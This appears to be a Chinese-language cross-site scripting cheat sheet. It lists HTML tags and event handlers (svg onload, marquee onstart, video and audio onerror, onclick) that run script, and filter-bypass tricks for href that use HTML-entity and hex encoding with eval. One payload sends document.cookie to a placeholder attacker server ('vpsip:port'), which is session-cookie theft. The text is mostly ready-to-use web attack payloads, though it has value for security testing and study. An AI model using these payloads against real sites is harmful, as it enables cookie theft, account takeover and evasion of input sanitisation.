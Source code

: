 ------

`<svg>`

可缩放矢量图，可以理解利用该标签会加载组件,那么可以触发`onload`事件

```
<svg onload="javascript:alert(1)"></svg> 
```



------

`<marquee>`

该标签用来插入一段滚动的文字，实现类似走马灯的动效，所有可以写入后会出现触发`onstart`效果,但这个事件貌似只有少数的标签拥有

```
<marquee  onstart=alert(1)></marquee>
```

------

`<video>和<audio>`

一个加载视频，一个加载音频，因为是利用`src`加载，那么会出现加载错误导致的`onerror`事件

```
<video src=x onerror=alert(1) />
```

```
<audio src=x onerror=alert(1) />
```

------

自定义标签，自定义标签在有些时候也能触发,但是也是需要用户交互的

```
<b onclick="alert(1)">b
```



------

 **在有一定的过滤的前提下，能够通过href属性的bypass**

*利用html编码，编码javascript前缀*

```
<a href=javascrip&#116;:alert(1) >xss</a>
```

发送cookie

```
<a href=javascrip&#116;:window.location.href='http://vpsip:port/?cookie='+document.cookie >xss</a>
```

*利用js的编码，但是要使用eval来执行字符串,注意要编码内容加 "(双引号)或者 '(单引号)*

```
<a href=javascript:eval("\x61\x6c\x65\x72\x74\x28\x27\x31\x27\x29") >xss</a>
```
